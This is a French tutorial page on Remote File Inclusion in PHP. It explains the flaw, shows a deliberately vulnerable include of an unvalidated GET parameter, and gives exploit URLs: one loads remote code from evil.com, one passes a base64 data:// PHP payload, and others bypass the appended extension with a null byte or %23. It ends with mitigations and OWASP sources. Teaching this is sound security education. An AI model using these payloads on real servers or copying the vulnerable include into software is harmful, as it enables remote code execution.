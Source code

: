 # Remote File Inclusion : RFI 

##1.Presentation 

Explication de la faille + fonctionnement du logiciel


Le RFI est une faille permettant à un attaquant d'inclure un fichier distant. Cette vulnérabilité est basée
sur des fonctions telles que include ou encore require (pour le php).
D'autres langages comme le Javascript et l'ASP sont aussi impactés.

Les conséquences sont multiples :

* L'exécution de code sur le serveur web
* L'exécution de code sur le côté client comme le JavaScript peut conduire à d'autres attaques comme Cross-site scripting (XSS)
* Déni de service (DoS)
* Le vol de données / Manipulation de données

Ces types d’attaques sont de moins en moins présentes dans les applications qui sont basées majoritairement sur des framework robustes. 
Mais ces vulnérabilités existent bel et bien, il est donc intéressant de connaître des méthodes d’attaques pour en mesurer la gravité.

Un exemple de code vulnérable :

```PHP
<?php
$incfile = $_GET["file"];
include($incfile.".php");
?>
```

Dans cette exemple le nom du fichier est extrait depuis la requete HTTP et aucunes validations ne lui est appliquées.

La détection de cette faille est relativement simple car si on inclut un fichier inexistant on se retrouve avec une erreur qui peut ressembler à :

```

Warning: include(test.php): failed to open stream: No such file or directory in /test/index.php on line 18 
Warning: include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /test/index.php on line 18 

```
##2.Exploitation


Le but de l'exploitation est d'inclure un fichier distant sur le serveur.

__2.1 Méthode 1 : RFI basique__

On passe en paramètre une url pointant vers un script externe : 

<http://localhost/rfi.php?page=http://evil.com/exploit.php>

Ce script sera récupéré par l’application et exécuté puis rendu dans la page résultante.



__2.2 Méthode 2 : DATA URI__

Nous allons utiliser le wrapper PHP DATA pour exécuter du code php.

Tout d'abord nous allons encoder notre script en base64

Soit grâce à un commande bash :
```BASH
echo -n "<?php echo 'vulnerable'; ?>" | base64 

PD9waHAgZWNobyAndnVsbmVyYWJsZSc7ID8+
```

Soit grâce au site : <https://www.base64encode.org/|Base64Encode>

Pour l'exploitation :

<http://localhost/rfi.php?page=data://text/plain;base64,notre_script_encodé_en_base64>

On obtient :

<http://localhost/rfi.php?page=data://text/plain;base64,PD9waHAgZWNobyAndnVsbmVyYWJsZSc7ID8+>

Cela aura pour effet d'afficher "vulnérable" sur le site.
Je vous laisse imaginer des scripts plus poussés pour effectuer des actions plus évoluées.


__2.3 Méthode 3 : Bypass d'extensions auto ajoutées__

Il est possible que lorsque d'un essaie d'inclure un script distant le site ajoute automatiquement une extension (.php / .text /.js ...)

Il y a deux façons pour éviter cela :

Première solution : Le null byte (CF  faille LFI)
 

<http://localhost/rfi.php?page=http://wikisecu.fr/exploit.php%00>

Seconde solution (fonctionne uniquement sur certains sites) : Le caractère #

Le caractère # une fois encodé donne %23


<http://localhost/rfi.php?page=http://wikisecu.fr/exploit.php%23>



**3.Comment se protéger**

Il est possible de désactiver le support en passant la valeur des directives “allow_url_open” et “allow_url_include” à “Off”.

Vous pouvez bloquer l’utilisation des wrappers en installant l’extension Suhosin pour PHP (sauf si “allow_url_include” = “On”).

Source :

<http://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/>

<https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion|OWASP>

<https://fr.wikipedia.org/wiki/Remote_File_Inclusion|Wikipedia>